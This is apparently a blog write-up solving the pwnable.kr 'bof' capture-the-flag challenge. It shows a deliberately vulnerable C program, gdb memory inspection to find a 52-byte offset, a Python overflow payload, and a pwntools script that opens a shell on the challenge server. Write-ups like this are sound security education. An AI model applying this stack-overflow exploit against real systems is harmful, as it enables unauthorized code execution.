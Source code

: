 ```yaml
---
layout: post
title: pwnable.kr - bof
---
```


## Prompt
Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

## Solution
Download `bof.c`: 
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

We have a input buffer of 32 bytes allocated for us, but we can supply as many characters as we want. From the logic, we should try to overwrite `0xdeadbeef` with `0xcafebabe` to get our shell.

```
$ nc pwnable.kr 9000
this_is_33_characters_long_______
*** stack smashing detected ***: /home/bof/bof terminated
overflow me :
Nah..
```

Let's run it through `gdb`, and put a breakpoint at the comparison. 

```
$ gdb bof
gdb-peda$ break main
Breakpoint 1 at 0x68d
gdb-peda$ r
...
gdb-peda$ disas func
...
0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
...
gdb-peda$ break *0x56555654
Breakpoint 2 at 0x56555654
gdb-peda$ c 
Continuing.
overflow me :
AAAAAAAA
...
gdb-peda$ x/50wx $esp
0xffffd180:	0xffffd19c	0xffffd284	0xf7fad000	0xf7fab9e0
0xffffd190:	0x00000000	0xf7fad000	0xf7ffc800	0x41414141
0xffffd1a0:	0x41414141	0xf7fad000	0x00000001	0x5655549d
0xffffd1b0:	0xf7fad3fc	0x00040000	0x56556ff4	0xf9cac400
0xffffd1c0:	0x00800000	0x56556ff4	0xffffd1e8	0x5655569f
0xffffd1d0:	0xdeadbeef	0x00000000	0x565556b9	0x00000000
...
```
I supplied `AAAAAAAA` because its hex code would be easy to find: see the two groupings of `0x41414141`. There are 52 characters from the start of `0x41414141` to `0xdeadbeef`. To overflow, we need 52 of any character and then `0xcafebabe`.
```
0xcafebabe --> '\xbe\xba\xfe\xca'
```
Now, to make our payload. FYI, I find it easier to mess around with byte code in Python2 than in Python3.
```
python -c "print 'A' * 52 + '\xbe\xba\xfe\xca'" > overflow
```
We can pipe in our payload to bof: `cat overflow | ./bof`, but we won't be able to see any output. BUT, if we `cat` again we can redirect the shell to our stdin and stdout.

```
root@kali:~# (cat overflow; cat) | ./bof
overflow me :
whoami
root
```
Let's grab the flag.
```
root@kali:~# (cat overflow; cat) | nc pwnable.kr 9000
whoami
bof
cat flag
{flag censored}
```

Alternatively, we can use `pwntools` to get an interactive shell.

```python
#!/usr/bin/python
from pwn import *

URL = 'pwnable.kr'
PORT = 9000
PAYLOAD = 'A' * 52 + '\xbe\xba\xfe\xca'

shell = remote(URL,PORT)
shell.send(PAYLOAD)
shell.interactive()
```
Running, `solve.py`:
```
root@kali:~# python solve.py 
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ whoami
bof
$ cat flag
{flag censored}
```
